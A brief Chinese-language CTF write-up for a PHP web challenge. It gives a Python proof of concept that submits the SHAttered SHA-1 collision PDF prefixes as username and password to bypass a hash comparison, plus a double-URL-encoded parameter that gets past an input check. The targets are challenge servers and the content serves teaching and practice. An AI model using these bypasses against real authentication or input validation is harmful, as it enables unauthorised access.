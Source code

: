 这题nm的有点眼熟啊，这不是那个师傅问我的题吗，原理参考：
[ctf/Prudentialv2_Cloud_50.md at master · bl4de/ctf (github.com)](https://github.com/bl4de/ctf/blob/master/2017/BostonKeyParty_2017/Prudentialv2/Prudentialv2_Cloud_50.md)

直接上poc：

```python
import requests
import urllib.request

rotimi = urllib.request.urlopen("http://shattered.io/static/shattered-1.pdf").read()[:500];
letmein = urllib.request.urlopen("http://shattered.io/static/shattered-2.pdf").read()[:500];

r = requests.get('http://tc.rigelx.top:8003/baby_revenge.php', params={'name': rotimi, 'password': letmein});
print(r.text)
```

![](https://i.loli.net/2021/10/21/ZsAjVBFcOJb9H7w.png)

然后到here_s_the_flag.php

- 绕过第一个if：id传参不能等于Longlone;

- 然后url解码一次，再比较，为Longlone输出flag
  因为浏览器本身会url解码一次，传入2次url编码后的Longlone即可：

  ```
  http://tc.rigelx.top:8003/here_s_the_flag.php?id=%25%34%63%25%36%66%25%36%65%25%36%37%25%36%63%25%36%66%25%36%65%25%36%35
  ```

![](https://i.loli.net/2021/10/27/oVPSBD423mCRxH1.png)

